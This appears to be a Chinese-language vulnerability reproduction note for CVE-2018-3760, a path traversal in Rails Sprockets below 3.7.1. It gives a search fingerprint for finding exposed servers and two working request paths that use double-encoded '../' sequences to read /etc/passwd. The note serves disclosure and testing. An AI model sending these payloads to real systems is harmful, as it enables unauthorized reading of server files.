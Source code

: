# Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails 在开发环境下使用 Sprockets 作为静态文件服务器，Ruby On Rails 是著名 Ruby Web 开发框架，Sprockets 是编译及分发静态资源文件的 Ruby 库。

Sprockets 3.7.1 及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](images/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](images/202206281115997.png)

再利用 POC 读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](images/202206281115231.png)
